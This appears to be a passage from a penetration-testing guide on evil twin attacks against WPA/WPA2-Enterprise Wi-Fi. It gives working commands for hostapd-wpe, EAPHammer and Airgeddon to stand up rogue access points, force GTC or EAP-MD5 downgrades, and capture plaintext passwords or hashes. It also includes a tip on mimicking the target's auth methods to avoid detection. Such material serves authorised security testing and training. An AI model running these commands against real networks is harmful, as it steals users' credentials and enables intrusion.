 To understand this attacks I would recommend to read before the brief [WPA Enterprise explanation](./#wpa-enterprise-mgt).

**Using hostapd-wpe**

`hostapd-wpe` needs a **configuration** file to work. To **automate** the generation if these configurations you could use [https://github.com/WJDigby/apd\_launchpad](https://github.com/WJDigby/apd\_launchpad) (download the python file inside _/etc/hostapd-wpe/_)

```bash
./apd_launchpad.py -t victim -s PrivateSSID -i wlan0 -cn company.com
hostapd-wpe ./victim/victim.conf -s
```

In the configuration file you can select a lot of different things like ssid, channel, user files, cret/key, dh parameters, wpa version and auth...

[**Using hostapd-wpe with EAP-TLS to allow any certificate to login.**](evil-twin-eap-tls.md)

**Using EAPHammer**

```bash
# Generate Certificates
./eaphammer --cert-wizard

# Launch Attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```

By default, EAPHammer purposes this authentication methods (notice GTC as the first one to try to obtain plaintext passwords and then the use of more robust auth methods):

```
GTC,MSCHAPV2,TTLS-MSCHAPV2,TTLS,TTLS-CHAP,TTLS-PAP,TTLS-MSCHAP,MD5
```

This is the default methodology to avoid long connection times. However, you can also specify to server the authentication methods from weakest to strongest:

```
--negotiate weakest
```

Or you could also use:

* `--negotiate gtc-downgrade` to use highly efficient GTC downgrade implementation (plaintext passwords)
* `--negotiate manual --phase-1-methods PEAP,TTLS --phase-2-methods MSCHAPV2,GTC,TTLS-PAP` to specify manually the methods offered (offering the same auth methods in the same order as the organisation the attack will be much more difficult to detect).
* [Find more info in the wiki](http://solstice.sh/wireless/eaphammer/2019/09/10/eap-downgrade-attacks/)

**Using Airgeddon**

`Airgeddon` can use previously generated certificated to offer EAP authentication to WPA/WPA2-Enterprise networks. The fake network will downgrade the connection protocol to EAP-MD5 so it will be able to **capture the user and the MD5 of the password**. Later, the attacker can try to crack the password.\
`Airggedon` offers you the possibility of a **continuous Evil Twin attack (noisy)** or **only create the Evil Attack until someone connects (smooth).**
